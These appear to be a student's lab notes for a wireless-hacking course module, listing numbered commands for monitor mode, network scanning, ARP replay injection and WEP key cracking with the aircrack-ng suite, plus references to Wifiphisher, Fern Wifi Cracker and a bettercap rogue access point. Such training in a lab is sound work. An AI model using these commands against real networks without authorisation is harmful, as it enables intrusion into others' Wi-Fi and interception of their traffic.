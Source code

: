 # Footprint a Wireless Network
---
## Task 1 - Find Wi-fi Network in Range using NetSurveyor
---
**LAB Manual 4 : Page - 1765**




## Task 2 - Find Wi-Fi Network and Sniff Wi-Fi Packets using Wash and Wireshark
---
**LAB Manual 4 : Page - 1774**

1. sudo su 
2. cd
3. ifconfig
4. airmon-ng start wlo1
5. airmon-ng check kill
6. airmon-ng start wlo1mon
7. wash -i wlo1mon
8. check wireshark



## Task 1 - Crack a WEP network using Aircrack-ng
---
**LAB Manual 4 : Page - 1783**
1. sudo su 
2. cd
3. ifconfig
4. airmon-ng start wlo1
5. airmon-ng check kill
6. airmon-ng start wlo1mon
7. ![[Pasted image 20241028145932.png]]
8. airodump-ng --bssid 54:37:BB:68:88:F9 wlo1mon
9. ![[Pasted image 20241028150048.png]]
10. ![[Pasted image 20241028150125.png]]



## Task 2 : Crack a WEP network using Wifiphisher
---
**LAB Manual 4 : Page - 1790**




## Task 3 : Crack a WEP Network using Aircrack-ng
---
1. sudo su 
2. cd
3. ifconfig
4. airmon-ng start wlo1
5. airmon-ng check kill
6. airmon-ng start wlo1mon
7. airodump-ng wlo1mon![[Pasted image 20241028152758.png]]
8. airodump-ng wlo1mon --encrypt wep      # to only earch for available WEP network.![[Pasted image 20241028152902.png]]
9. airodump-ng --bssid 54:37:BB:68:88:F9 -c 1 -w WEPcrack wlo1mon
	-bssid = mac adr of taget AP.
	-c = channel
	-w = name of the dump file.  #output![[Pasted image 20241028153336.png]]
10. new terminal
11. aireplay-ng -3 -b 54:37:BB:68:88:F9 -h 20:A6:0C:30:23:D3 wlo1mon![[Pasted image 20241028153524.png]]
12. aircrack-ng Wepcrack-01.Cap
13. **see LAB Manual 4 : Page 1806**

## Task 4 : Cracking a WPA Network using Fern Wifi Cracker
---
1. fern-wifi-cracker
2. **see LAB Manual 4 : Page 1808**
## Task 5 : Crack a WPA2 Network using Aircrack-ng 
---
**LAB Manual 4 : Page 1819**


## Task 6 : Create a Rouge Access Point to Capture Data Packets
---
**LAB Manual 4 : Page 1827**

bettercap
